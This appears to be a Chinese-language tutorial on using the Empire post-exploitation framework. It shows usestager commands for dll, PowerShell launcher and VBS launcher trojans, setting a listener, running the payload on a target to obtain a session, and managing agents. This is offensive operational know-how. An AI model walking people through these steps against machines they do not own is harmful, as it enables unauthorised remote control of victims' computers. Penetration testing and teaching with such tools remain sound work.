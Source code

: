 ![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK8V33zby409ab5t6iaYhenLdypia6KDicPP4KzslAW5HFmArgD3KQRnRMw/640?wx_fmt=png)

1.  生成木马
    
2.  usestager #设置模块
    

使用 usestager 命令设置生成木马的模块

usestager <tab> <tab> 查看所有可使用的木马生成模块

其中 multi 为通用 mok，osx 为 Mac 操作系统的模块，windows 就是 windows 的模块。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKJBgG1YDM7vqrLR19LEaX8fp12eibgbwmlsqKjMFa5pR4aZVdFycu1Sg/640?wx_fmt=png)

(1) dll 模块

usestager windows/dll # 选择 dll 模块

info 查看一下需要设置的参数信息

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKglO76xI4uHNM4rpGGGjAUnPZZDdlEpSLzEGVepoXfLicGtqXJSf5psQ/640?wx_fmt=png)

这里我们需要设置一下 listener，然后 execute 执行，木马生成目录 /tmp/launcher.dll

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKIehUjIZ0icVIT2q9bYYIYkhLTwrIhmpUVKXBg6JqvkZKrGvfyWXWeUg/640?wx_fmt=png)

(2) launcher

如果只需要简单的 powershell 代码，在设置完相应的参数后，可直接在监听器中输入命令 launcher <language> <Listener Name> 生成 base64 编码的代码，

输入 back 返回到 Listener 界面，输入 launcher powershell Micr067 来生成一个 payload

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK8IImHBfzgXPicnXPIrsTD5s3nBjzBOeZuHaGVKnUuPnApKewI4BW77w/640?wx_fmt=png)

然后将生成的 payload 在目标机器上执行，即可获得 session

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK1iauB1aukc2aMN5p3dptTT6Uw2BAQqicSU0gkY8RGP9w4EbpLIWUIudw/640?wx_fmt=png)

可以看到 Empire 已经上线了一个名为 GL8DBS32 的主机，

输入 agents 可以查看已经获得的 session，这里的 agents 相当于 msf 中的 sessions -l

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK1XUe0Wsxsyf2P0LianUyLkLaqd5hQOvpAajZXiaCvXAyG7HeE7zY01gg/640?wx_fmt=png)

此时的代理名 GL8DBS32 是随机生成的，为了方便记忆，我们可以通过 rename 对其重命名

rename <Old Name> <New Name>

rename GL8DBS32 PC2

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKYF0XFEuicerQOd7iaAdlmVMBeHYu6vvdBL0lY8aGybAWtZwIib0W3prHA/640?wx_fmt=png)

(3) launcher_vbs

usestager windows/launcher_vbs # 设置 launcher_vbs 木马

set Listener micr067

execute
